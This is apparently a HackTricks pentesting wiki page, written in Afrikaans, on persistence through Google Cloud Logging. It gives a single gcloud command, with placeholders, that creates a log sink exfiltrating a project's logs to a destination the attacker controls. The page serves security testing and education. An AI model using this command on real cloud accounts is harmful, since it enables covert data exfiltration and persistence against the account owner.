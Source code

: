 # GCP - Logging Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Logging

Vind meer inligting oor Logging in:

{{#ref}}
../gcp-services/gcp-logging-enum.md
{{#endref}}

### `logging.sinks.create`

Skep 'n sink om die logs na 'n aanvaller se toeganklike bestemming te exfiltreer:
```bash
gcloud logging sinks create <sink-name> <destination> --log-filter="FILTER_CONDITION"
```
{{#include ../../../banners/hacktricks-training.md}}
